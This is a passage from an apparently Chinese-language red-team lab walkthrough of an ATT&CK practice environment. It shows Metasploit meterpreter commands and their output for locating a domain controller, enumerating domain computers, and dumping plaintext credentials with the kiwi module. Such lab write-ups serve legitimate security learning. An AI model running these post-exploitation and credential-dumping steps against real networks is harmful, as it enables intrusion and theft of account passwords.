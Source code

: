 使用msf定位域控 `run post/windows/gather/enum_domain`

```csharp
meterpreter > run post/windows/gather/enum_domain

[+] Domain FQDN: god.org
[+] Domain NetBIOS Name: GOD
[+] Domain Controller: owa.god.org (IP: 192.168.52.138)
```

确定域控ip地址为：192.168.52.138

使用msf列出域内成员 `run post/windows/gather/enum_ad_computers`

```csharp
meterpreter > run post/windows/gather/enum_ad_computers 

Domain Computers
================

 dNSHostName         distinguishedName   description  operatingSystem         operatingSystemService
                                                                              Pack
 -----------         -----------------   -----------  ---------------         ----------------------
 owa.god.org         CN=OWA,OU=Domain C               Windows Server 2008 R2  Service Pack 1
                     ontrollers,DC=god,                Datacenter
                     DC=org
 root-tvi862ubeh.go  CN=ROOT-TVI862UBEH               Windows Server 2003
 d.org               ,CN=Computers,DC=g
                     od,DC=org
```

### 抓取密码

获取明文密码

```csharp
load kiwi
creds_all
```

![Untitled](Att&ck-1%20e6cdaf0ecee347919ad5d9d090eddf75/Untitled%2027.png)
